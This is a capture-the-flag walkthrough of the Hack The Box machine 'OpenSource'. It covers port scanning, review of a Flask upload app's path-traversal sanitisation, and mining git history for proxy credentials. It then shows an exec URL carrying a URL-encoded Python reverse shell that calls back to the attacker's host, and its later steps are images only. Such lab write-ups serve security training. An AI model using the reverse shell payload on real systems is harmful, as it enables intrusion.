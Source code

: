 # OpenSource

**Date**: 24/05/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/OpenSource](https://app.hackthebox.com/machines/OpenSource)

***

Let’s start with a ping

<figure><img src="../../.gitbook/assets/opensource0.png" alt=""><figcaption></figcaption></figure>

`ttl=63` so we are probably facing a Linux machine.

Let’s do a nmap port scan:

<figure><img src="../../.gitbook/assets/opensource1.png" alt=""><figcaption></figcaption></figure>

The TCP ports 22 and 80 are open, ssh and http, and there is a port (3000) that appears as filtered. Let’s do a detailed scan to try to obtain the services and their versions:

<figure><img src="../../.gitbook/assets/opensource2.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource3.png" alt=""><figcaption></figcaption></figure>

While the previous scan was taking place (it took around 2 minutes) I launched a whatweb scan to scan the website hosted in the port 80:

<figure><img src="../../.gitbook/assets/opensource4.png" alt=""><figcaption></figcaption></figure>

The OpenSSH build version is `7.6p1 Ubuntu 4ubuntu0.7`

<figure><img src="../../.gitbook/assets/opensource5.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be an Ubuntu Bionic.

The web server is something called Werkzeug… let’s investigate about it:

[https://werkzeug.palletsprojects.com/en/2.1.x/](https://werkzeug.palletsprojects.com/en/2.1.x/)

<figure><img src="../../.gitbook/assets/opensource6.png" alt=""><figcaption></figcaption></figure>

> WSGI is the Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request.

Let’s see how it looks in the web-browser:

<figure><img src="../../.gitbook/assets/opensource7.png" alt=""><figcaption></figcaption></figure>

Every link redirects to # except the buttons Download and Take me there:

<figure><img src="../../.gitbook/assets/opensource8.png" alt=""><figcaption></figcaption></figure>

Let’s click on Download first:

<figure><img src="../../.gitbook/assets/opensource9.png" alt=""><figcaption></figcaption></figure>

It starts the download of a compressed file that contains what it seems to be the source code of the upcloud software.

Now, let’s click on the button Take me there!:

<figure><img src="../../.gitbook/assets/opensource10.png" alt=""><figcaption></figcaption></figure>

Let’s upload something:

<figure><img src="../../.gitbook/assets/opensource11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource12.png" alt=""><figcaption></figcaption></figure>

Sooo… it uploaded the file to the target server and then shows you the url to view the file. Nice. It will not be that easy, but let’s try to upload a php-reverse-shell.php…

<figure><img src="../../.gitbook/assets/opensource13.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource14.png" alt=""><figcaption></figcaption></figure>

Hahahaha no, instead of interpret the php file it send it to us for download.

At this point, we have the source code of the application, so let’s try to see how it works and if there is any vulnerability we can exploit:

<figure><img src="../../.gitbook/assets/opensource15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource16.png" alt=""><figcaption></figcaption></figure>

[Utils.py](http://utils.py) code contains interesting stuff. There are several functions that try to sanitize the filename of the file we will try to upload.

```python
def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```

The function `recursive_replace` is self-explained. It takes 3 arguments:

* `search`: String that will be sanitized
* `replace_me` : String that will be replaced
* `with_me` : String that will replace the previous one

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

The function `get_file_name` gets the input `unsafe_filename` and replaces every `../` with nothing using the `recursive_replace` function.

```python
def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
```

This function gets the input `unsafe_filename` and does 2 things.

1. It splits the input using the most right `.` character
2. Then it sanitizes the filename (but not the extension) and concatenate both including between a string representing the current milliseconds)

```python
"""
TODO: get unique filename
"""
```

There is a comment about a feature that has not been developed yet. Maybe we can use this later… Maybe we can cause something if we try to upload 2 files with the same filename?

<figure><img src="../../.gitbook/assets/opensource17.png" alt=""><figcaption></figcaption></figure>

The views.py file has functions related to the file upload process:

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')
```

Ok, if we could name our file something like “../../../../../etc/passwd” the render template should return the passwd file due to directory traversal vulnerability. But the file name is being sanitized, replacing the “../” recursively with a blank string. Maybe we can find other string which can do the same function as “../../../../” (I don’t really know if it exists).

But first, let’s see what happens when we try to upload the same file twice (due to the TODO task), so we will upload the same file again, but changing it’s content. Previously the content of text.txt was “Hello world”, this time will be “Test”.

<figure><img src="../../.gitbook/assets/opensource18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource19.png" alt=""><figcaption></figcaption></figure>

Interesting, the upload overwrites the previous file.

Ok, let’s use Burpsuite to try to manipulate the upload. I intercepted an Upload request and send it to the repeater:

<figure><img src="../../.gitbook/assets/opensource20.png" alt=""><figcaption></figcaption></figure>

It didn’t work well…

After MANY hours trying to bypass the sanitization of the recursive replacement function in get\_name… I started from other aproach:

If we list all files we downloaded:

<figure><img src="../../.gitbook/assets/opensource21.png" alt=""><figcaption></figcaption></figure>

We can see the .git folder, which indicates us that is a git repository. Let’s enumerate it!

First, let’s see if there are several branches:

<figure><img src="../../.gitbook/assets/opensource22.png" alt=""><figcaption></figcaption></figure>

Yep, we are in the public branch, but there is another one called dev, so we switched to it. Let’s read the logs:

<figure><img src="../../.gitbook/assets/opensource23.png" alt=""><figcaption></figcaption></figure>

There are some commits. Let’s see the difference between them:

<figure><img src="../../.gitbook/assets/opensource24.png" alt=""><figcaption></figcaption></figure>

Between the “ease testing” and “added gitignore”, there is nothing interesting.

<figure><img src="../../.gitbook/assets/opensource25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource26.png" alt=""><figcaption></figcaption></figure>

But, between “ease testing” and “updated” there is a strange url with something that looks like credentials in a file called “settings.json” inside the .vscode folder.

```python
"python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
+  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
+  "http.proxyStrictSSL": false
```

Let’s

<figure><img src="../../.gitbook/assets/opensource27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource28.png" alt=""><figcaption></figcaption></figure>

`http://10.10.11.164/exec?cmd=ping%20-c%201%2010.10.14.198`

<figure><img src="../../.gitbook/assets/opensource29.png" alt=""><figcaption></figcaption></figure>

`10.10.11.164/exec?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.14.198%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call([%22%2Fbin%2Fsh%22%2C%22-i%22])%3B%27%0A`

<figure><img src="../../.gitbook/assets/opensource30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource31.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource32.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource33.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource34.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource38.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource39.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource41.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource43.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource45.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource46.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource47.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource49.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource52.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource53.png" alt=""><figcaption></figcaption></figure>

psp

<figure><img src="../../.gitbook/assets/opensource54.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource55.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource56.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/opensource57.png" alt=""><figcaption></figcaption></figure>
